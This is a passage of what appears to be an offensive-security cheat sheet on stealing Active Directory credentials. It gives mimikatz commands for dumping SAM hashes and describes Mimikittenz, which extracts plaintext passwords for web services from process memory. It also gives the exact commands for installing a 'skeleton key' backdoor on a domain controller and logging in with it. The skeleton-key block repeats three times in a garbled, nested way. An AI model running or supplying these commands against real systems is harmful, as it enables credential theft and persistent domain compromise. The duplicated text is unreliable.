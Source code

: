   * mimikatz#log hash.txt
  * mimikatz#lsadump::sam filename1.hiv filename2.hiv
* Mimikittenz
  * POC style tool that utilizes windows function ReadProcessMemory() to extract plain text passwords from various targets such as browsers
  * Search queries preloaded for Gmail, O365, Jira, github, bugzilla,zendesk, Cpanel, Dropbox, onedrive, AWS, SLack, Twitter, and Facebook
  * Does not require Local admin, it runs in Userland mem
  * [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
  * Back door a privileged AD account with Mimikatz
  * To install the skeleton key
    * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
  * Use
    * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
    * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)
    * [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
    * Back door a privileged AD account with Mimikatz
    * To install the skeleton key
      * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
    * Use
      * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
      * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)
      * [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
      * Back door a privileged AD account with Mimikatz
      * To install the skeleton key
        * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
      * Use
        * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
        * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)
{% endtab %}
{% endtabs %}

### Endpoint Techniques

{% tabs %}
{% tab title="Cred Locations" %}


### Passwords in AD Attributes

* [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/passwords\_in\_active\_directory\_attributes/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/passwords\_in\_active\_directory\_attributes/)
